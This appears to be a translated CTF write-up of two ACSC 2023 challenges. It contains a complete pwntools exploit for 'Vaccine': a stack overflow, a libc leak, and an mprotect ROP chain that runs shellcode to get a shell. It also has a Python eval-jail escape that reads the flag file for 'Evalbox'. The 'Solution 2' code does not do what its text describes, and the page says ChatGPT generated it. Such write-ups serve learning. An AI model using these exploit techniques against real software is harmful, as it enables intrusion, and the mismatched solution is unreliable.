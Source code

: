 ```yaml
---
title: "PWN【ACSC 2023】Writeup WP Reproduction"
authors: [nova]
tags: ["CTF", "Pwn", "writeup", "wp"]
---
```


This is an individual competition, but I have already forgotten things related to Web or Rev, let alone Crypto. Meanwhile, we cannot solve the hard challenges, so uh-hum, let's just say I'm not participating for the sake of the ranks LOL

<!--truncate-->

## Vaccine

The program uses `scanf` to receive our input, therefore we have no length limit, and we can just modify _s_ to be the same as _s2_.

![image-20230227192106762](https://oss.nova.gal/img/image-20230227192106762.png)

Then, we'll be able to leak the libc_address and ret2libc by simply doing a stack overflow and changing the return address.

At first, I used a wrong libc version and there were no one_gadgets available, so I used the `mprotect` and shellcode to get the shell, which made things more complicated.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./vaccine'])
sh = remote('vaccine-2.chal.ctf.acsc.asia', 1337)
elf = ELF('./vaccine')
# libc = ELF('./libc6-i386_2.31-9_amd64.so')  # wrong libc lol
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

pop_rdi_ret = 0x401443
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# gdb.attach(sh, 'b *0x00000000004013D7')
# pause()
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)
sh.recvuntil(b'castle\n')

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x84420
mprotect = libc_base + libc.sym['mprotect']
read = libc_base + libc.sym['read']
pop_rsi_ret = libc_base + 0x02601f
pop_rdx_r12_ret = libc_base + 0x119211

print(hex(libc_base))
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(elf.bss() & (~0xfff)) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7)*2 + p64(mprotect)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(elf.bss() + 0x50) + p64(pop_rdx_r12_ret) + p64(0x1000)*2 + p64(read) + p64(elf.bss() + 0x50) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)

sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```

## Evalbox

This is a really interesting challenge.

```python
#!/usr/bin/env python3
import seccomp

if __name__ == '__main__':
    f = seccomp.SyscallFilter(defaction=seccomp.ALLOW)
    f.add_rule(seccomp.KILL, 'close')
    f.load()
    eval(input("code: "))
```

It will `eval` anything we input, but it also prohibits all function calls for `close`.

In `Dockerfile`, we know that we should first get the filename of the flag.

At first, I thought there might be some differences between `seccomp.so` and [seccomp.pyx](https://github.com/seccomp/libseccomp/blob/main/src/python/seccomp.pyx). So I tried to compile this `.pyx` file and attempted to use bindiff between these two files, but I failed :(

But there are actually many ways to bypass this jail.

### Solution 1

This is an exp in a pure Python way.

We can use `os.scandir(os.open(".", 0))` to get all files in the `.` directory, and we can use `print(os.open(filename, 'r').read())` to get the content of the file.

Let's just shorten it to one line.

```python
print(os:=__import__('os'), d:=os.scandir(os.open(".", 0)), f:=open(next(filter(lambda x: x.name.startswith("flag"), d))), f.read(), sep='\n\n')
```

### Solution 2

We can open `/proc/self/mem` and write shellcode on the `.text` segment.

```python
print(os:=__import__('os'), f:=open('flag-31540753807ba7099ea27997ca43e280.txt', 'r'), f.read())
```

:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
